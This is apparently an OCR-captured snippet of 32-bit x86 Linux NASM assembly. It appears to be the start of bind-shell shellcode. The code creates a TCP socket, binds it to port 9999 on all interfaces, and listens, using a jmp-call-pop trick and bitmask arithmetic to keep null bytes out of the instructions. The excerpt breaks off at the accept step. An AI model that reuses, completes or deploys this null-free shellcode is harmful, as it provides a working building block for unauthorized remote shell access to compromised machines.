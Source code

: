 ```nasm
	mov al, 6 ; protocol = IPPROTO_TCP
	push eax
	mov al, 1 ; type = SOCK_STREAM
	push eax
	mov al, 2 ; domain = AF_INET
	push eax
	mov al, 102 ; syscall - socketcall
	xor ebx,ebx
	mov bl, 1   ; socket sockcall type
	mov ecx, esp ; pointer to the args
	int 0x80

	; eax now contains the socket file descriptor
	; save it in esi for later usage
	mov esi,eax

	; Bind to the socket
        ; need to contruct the sockaddr_in
        ; this is 02 00 27 0f 00 00 00 00 00 00 00 00 00 00 00 00 for port 9999
	xor ebx,ebx
	push ebx ; null padding
	push ebx ; null padding
	push ebx ; INADDR_ANY

 	; perform a jmp-call-pop to get the port number so that it is easily configurable
	jmp short get_port

got_port:
	xor edx,edx
	pop ecx ; put address of port number into ecx
	mov ecx,[ecx] ; put port number into ecx
	mov dx, cx
	shl edx,16
	mov ebx, 0xf00f0ff2
	and ebx, 0x0ff0f00f
	add ebx,edx ;get 0x0200270f into ebx without any null bytes in the instructions

	push ebx
	mov ebx, esp ; now ebx has the address of the sockaddr_in struct
        xor ecx,ecx
	mov cl, 16
	push ecx
	push ebx
	push esi
	mov ecx, esp
	xor ebx,ebx
	mov bl, 2 ; bind sockcall type
	xor eax,eax
	mov al, 102 ; syscall - socketcall
	int 0x80

	; Listen on the socket
	xor eax,eax
	push eax
	push esi
	mov ecx,esp ; pointer to args
	xor ebx,ebx
	mov bl, 4 ; listen sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

handle_connections:
	; accept a connection
```